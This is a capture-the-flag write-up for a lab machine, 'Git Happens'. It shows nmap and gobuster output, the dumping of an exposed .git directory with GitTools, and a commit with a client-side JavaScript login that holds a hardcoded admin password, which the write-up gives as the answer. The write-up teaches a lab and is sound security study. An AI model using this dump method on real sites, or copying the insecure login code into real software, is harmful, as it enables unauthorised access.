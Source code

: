 ## Git Happens

#### Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!

### NMAP SCAN

```
# Nmap 7.60 scan initiated Sat Jan 22 05:43:00 2022 as: nmap -sC -sV -oN nmap.txt 10.10.24.140
Nmap scan report for ip-10-10-24-140.eu-west-1.compute.internal (10.10.24.140)
Host is up (0.061s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git:
|   10.10.24.140:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
MAC Address: 02:28:2C:48:61:D5 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 22 05:43:10 2022 -- 1 IP address (1 host up) scanned in 10.71 seconds

```

### GOBUSTER

```
/.git/HEAD (Status: 200)
/css (Status: 301)
/index.html (Status: 200)

```

### Robots.txt

No Robots.txt Found.

### Sitemap

No Sitemap Found.

### Exploitation

We have noticed that there is .git directory.
Let's Download with GitTools. [dumper.sh](https://github.com/internetwache/GitTools/blob/master/Dumper/gitdumper.sh)

USAGE `./dumper.sh http://Machine-IP/.git/ Destination Folder.`

```
root@ip-10-10-165-80:~/Desktop/git/.git# git log
commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Thu Jul 23 22:22:16 2020 +0000

    Update .gitlab-ci.yml

commit 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:21:25 2020 +0200

    add gitlab-ci config to build docker file.

commit 2eb93ac3534155069a8ef59cb25b9c1971d5d199
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:08:38 2020 +0200

    setup dockerfile and setup defaults.

commit d6df4000639981d032f628af2b4d03b8eff31213
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:42:30 2020 +0200

    Make sure the css is standard-ish!

commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:41:12 2020 +0200

    re-obfuscating the code to be really secure!

commit bc8054d9d95854d278359a432b6d97c27e24061d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:37:32 2020 +0200

    Security says obfuscation isn't enough.

    They want me to use something called 'SHA-512'

commit e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:25:52 2020 +0200

    Obfuscated the source code.

    Hopefully security will be happy!

commit 395e087334d613d5e423cdf8f7be27196a360459
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:17:43 2020 +0200

    Made the login page, boss!

commit 2f423697bf81fe5956684f66fb6fc6596a1903cc
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Mon Jul 20 20:46:28 2020 +0000

    Initial commit
root@ip-10-10-165-80:~/Desktop/git/.git#

```

Check for commit Made the Login Page.

Use Command `git show 395e087334d613d5e423cdf8f7be27196a360459`

We have found following Javscript Code.

```html
<script>
  +      function login() {
  +        let form = document.getElementById("login-form");
  +        console.log(form.elements);
  +        let username = form.elements["username"].value;
  +        let password = form.elements["password"].value;
  +        if (
  +          username === "admin" &&
  +          password === "Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!"
  +        ) {
  +          document.cookie = "login=1";
  +          window.location.href = "/dashboard.html";
  +        } else {
  +          document.getElementById("error").innerHTML =
  +            "INVALID USERNAME OR PASSWORD!";
  +        }
  +      }
  +
</script>
```

---

**_Answer the questions below_**

1. **Find the Super Secret Password**

- **_Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!_**

---
